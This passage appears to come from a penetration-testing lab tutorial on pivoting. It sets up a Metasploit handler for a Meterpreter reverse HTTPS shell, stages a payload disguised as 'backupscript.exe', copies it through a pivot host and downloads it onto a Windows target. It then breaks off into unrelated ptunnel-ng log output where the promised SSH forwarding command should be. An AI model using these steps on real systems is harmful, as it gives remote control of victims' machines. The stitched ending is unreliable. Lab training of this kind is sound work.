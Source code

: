 #### Configuring & Starting the multi/handler

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000

```

Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

#### Transferring Payload to Pivot Host

```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00

```

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

#### Starting Python3 Webserver on Pivot Host

```shell
ubuntu@Webserver$ python3 -m http.server 8123

```

#### Downloading Payload from Windows Target

We can download this `backupscript.exe` from the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"

```

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%